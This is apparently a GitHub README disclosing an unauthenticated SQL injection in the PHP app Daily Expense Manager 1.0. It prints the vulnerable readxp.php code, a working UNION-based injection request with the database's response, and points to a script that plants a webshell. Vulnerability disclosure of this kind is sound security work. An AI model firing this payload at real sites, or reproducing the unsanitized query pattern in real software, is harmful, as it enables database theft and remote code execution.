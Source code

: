 # Daily Expense Manager 1.0 - Unauthenticated SQL Injection
SQL injection in Daily Expense Manager 1.0 allows for injection of SQL queries, resulting in information disclosure and remote code execution.

## Vulnerable Code
File: /Daily-Expense-Manager/readxp.php , Line: 16-23
```
<?php
include("functions.php");

if(isloggedin()==FALSE)
{

}
else
{
  
}
$sid=$_SESSION['id'];


//get search term
$searchTerm = $_GET['term'];
//get matched data from skills table
$query = $conn->query("SELECT * FROM expense WHERE pname like '%$searchTerm%' AND uid='$sid' and isdel='0' group by pname");
while ($row = $query->fetch_assoc()) {
    $data[] = $row['pname'];
}
//return json data
echo json_encode($data);
?>
```
The LoggedIn() function effectively does nothing to prevent unauthenticated users from accessing this file.
The `$SearchTerm` variable is not sanitized and is under control of the attacker.

## Proof-of-concept
The HTTP request below injects a UNION statement to retrieve the version of the underlying database.

HTTP Request
```
GET /Daily-Expense-Manager/readxp.php?term=asd%27%20UNION%20ALL%20SELECT%201,@@version,3,4,5,6--%20- HTTP/1.1
Host: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

HTTP Response:
```
HTTP/1.1 200 OK
Date: Mon, 22 Aug 2022 16:28:11 GMT
Server: Apache/2.4.53 (Debian)
Set-Cookie: PHPSESSID=h7jdflgm9l3d84lruefl5jie3h; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 25
Connection: close
Content-Type: text/html; charset=UTF-8

["10.5.12-MariaDB-1-log"]
```

## Script
A proof-of-concept script written in python 3.6.x is in this repository. Follow instructions to inject a webshell onto the target.

![Executing the proof-of-concept script](https://github.com/stefanhesselman/Daily-Expense-Manager-1.0-SQL-to-RCE/blob/main/demo.gif?raw=true)


## Links
Vendor Homepage: https://code-projects.org/daily-expense-manager-in-php-with-source-code/

Software Link: https://download-media.code-projects.org/2020/01/DAILY_EXPENSE_MANAGER_IN_PHP_WITH_SOURCE_CODE.zip
